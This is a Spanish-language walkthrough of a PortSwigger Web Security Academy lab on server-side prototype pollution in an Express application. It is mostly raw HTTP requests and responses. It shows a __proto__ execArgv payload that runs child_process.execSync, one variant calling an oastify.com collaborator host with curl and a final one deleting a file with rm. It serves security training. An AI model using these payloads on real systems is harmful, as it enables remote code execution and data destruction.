 ```yaml
---
description: >-
  https://portswigger.net/web-security/prototype-pollution/server-side/lab-remote-code-execution-via-server-side-prototype-pollution
---
```


# Lab 9: Remote code execution via server-side prototype pollution

Primero encontramos la siguiente peticion:

{% code overflow="wrap" %}
```json
POST /my-account/change-address HTTP/2
Host: 0ade001c03d1540682f0971f00b70020.web-security-academy.net
Cookie: session=9Z8pN21fPP7CZIMDolCzh7uAfP6FL594
Content-Length: 168
Sec-Ch-Ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
Content-Type: application/json;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */
Origin: https://0ade001c03d1540682f0971f00b70020.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0ade001c03d1540682f0971f00b70020.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Priority: u=1, i

{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","sessionId":"9Z8pN21fPP7CZIMDolCzh7uAfP6FL594"}
```
{% endcode %}

Lo anterior responde asi:

{% code overflow="wrap" %}
```json
HTTP/2 200 OK
X-Powered-By: Express
Cache-Control: no-store
Content-Type: application/json; charset=utf-8
Etag: W/"c4-o1d3jaxaEdwNnwhzORq6DYSiPxI"
Date: Tue, 25 Jun 2024 21:11:35 GMT
Keep-Alive: timeout=5
X-Frame-Options: SAMEORIGIN
Content-Length: 196

{"username":"wiener","firstname":"Peter","lastname":"Wiener","address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","isAdmin":true}
```
{% endcode %}

Teniendo en cuenta lo anterior, enviamos la siguiente peticion:

{% code overflow="wrap" %}
```json
POST /my-account/change-address HTTP/2
Host: 0ade001c03d1540682f0971f00b70020.web-security-academy.net
Cookie: session=9Z8pN21fPP7CZIMDolCzh7uAfP6FL594
Content-Length: 208
Sec-Ch-Ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
Content-Type: application/json;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */
Origin: https://0ade001c03d1540682f0971f00b70020.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0ade001c03d1540682f0971f00b70020.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Priority: u=1, i

{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","sessionId":"9Z8pN21fPP7CZIMDolCzh7uAfP6FL594","__proto__": {
    "json spaces":10
}}
```
{% endcode %}

Y lo anterior, entrego la siguiente respuesta en raw:

```json
HTTP/2 200 OK
X-Powered-By: Express
Cache-Control: no-store
Content-Type: application/json; charset=utf-8
Etag: W/"14e-/rxYzhSfiD4zL1vVonmGpZgVmW0"
Date: Tue, 25 Jun 2024 21:11:52 GMT
Keep-Alive: timeout=5
X-Frame-Options: SAMEORIGIN
Content-Length: 334

{
          "username": "wiener",
          "firstname": "Peter",
          "lastname": "Wiener",
          "address_line_1": "Wiener HQ",
          "address_line_2": "One Wiener Way",
          "city": "Wienerville",
          "postcode": "BU1 1RP",
          "country": "UK",
          "isAdmin": true,
          "json spaces": 10
}
```

Los 10 espacios antecedidos por cada objeto indica que es susceptible a este tipo de ataques.

Al acceder al apartado de admin:

<figure><img src="../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

Al clickear al button previo se genera la siguiente petición:

{% code overflow="wrap" %}
```json
POST /admin/jobs HTTP/2
Host: 0ade001c03d1540682f0971f00b70020.web-security-academy.net
Cookie: session=9Z8pN21fPP7CZIMDolCzh7uAfP6FL594
Content-Length: 126
Sec-Ch-Ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
Content-Type: application/json;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */
Origin: https://0ade001c03d1540682f0971f00b70020.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0ade001c03d1540682f0971f00b70020.web-security-academy.net/admin
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Priority: u=1, i

{"csrf":"E5PnMR6lCAZooCcKBud78idhOfsoN5TZ","sessionId":"9Z8pN21fPP7CZIMDolCzh7uAfP6FL594","tasks":["db-cleanup","fs-cleanup"]}
```
{% endcode %}

La petición previa entrega la siguiente respuesta:

{% code overflow="wrap" %}
```json
HTTP/2 200 OK
X-Powered-By: Express
Cache-Control: no-store
Content-Type: application/json; charset=utf-8
Etag: W/"1c7-o/UMl8aG2WYfWY22q3KHWd04RGU"
Date: Tue, 25 Jun 2024 21:16:53 GMT
Keep-Alive: timeout=5
X-Frame-Options: SAMEORIGIN
Content-Length: 455

{
          "results": [
                    {
                              "name": "db-cleanup",
                              "description": "Database cleanup",
                              "success": true
                    },
                    {
                              "name": "fs-cleanup",
                              "description": "Filesystem cleanup",
                              "success": true
                    }
          ]
}
```
{% endcode %}

Esto genera tareas en segundo plano que limpian la base de datos y el sistema de archivos.

Por lo anterior, generamos un collaborator y enviamos la siguiente peticion:

{% code overflow="wrap" %}
```json
POST /admin/jobs HTTP/2
Host: 0ade001c03d1540682f0971f00b70020.web-security-academy.net
Cookie: session=9Z8pN21fPP7CZIMDolCzh7uAfP6FL594
Content-Length: 272
Sec-Ch-Ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
Content-Type: application/json;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */
Origin: https://0ade001c03d1540682f0971f00b70020.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0ade001c03d1540682f0971f00b70020.web-security-academy.net/admin
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Priority: u=1, i

{"csrf":"E5PnMR6lCAZooCcKBud78idhOfsoN5TZ","sessionId":"9Z8pN21fPP7CZIMDolCzh7uAfP6FL594","tasks":["db-cleanup","fs-cleanup"],"__proto__": {
    "execArgv":["--eval=require('child_process').execSync('curl https://zvy90na6d8f1qtspeihq8wqvemkd83ws.oastify.com')"
    ]
}}
```
{% endcode %}

Y la peticion previa se uso el siguiente payload:

```json
"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('curl https://YOUR-COLLABORATOR-ID.oastify.com')"
    ]
}
```

La respuesta de esta petición fue la siguiente:

```json
HTTP/2 200 OK
X-Powered-By: Express
Cache-Control: no-store
Content-Type: application/json; charset=utf-8
Etag: W/"1e3-FCLLKbEoTy1W0ntJnbriVtYsbfg"
Date: Tue, 25 Jun 2024 21:19:42 GMT
Keep-Alive: timeout=5
X-Frame-Options: SAMEORIGIN
Content-Length: 483

{
          "results": [
                    {
                              "name": "db-cleanup",
                              "success": true,
                              "message": "Child process executed successfully"
                    },
                    {
                              "name": "fs-cleanup",
                              "success": true,
                              "message": "Child process executed successfully"
                    }
          ]
}
```

Y en nuestro collaborator se logro recibir el trafico:

<figure><img src="../.gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>

El payload para resolver el ejercicio es el siguiente:

```json
"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"
    ]
}
```
